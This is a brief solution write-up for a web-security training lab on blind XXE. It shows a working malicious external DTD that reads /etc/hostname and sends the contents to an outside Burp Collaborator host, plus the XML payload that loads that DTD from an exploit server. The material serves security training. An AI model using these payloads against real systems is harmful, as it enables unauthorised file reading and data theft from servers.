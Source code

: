 # Exploiting blind XXE to exfiltrate data out-of-band

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://h4mpvvu7dfq98uosfoe81bwag1mtai.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac2a1fd71e1c41bbc0373b1201d50007.web-security-academy.net/exploit.dtd"> %xxe; ]>
```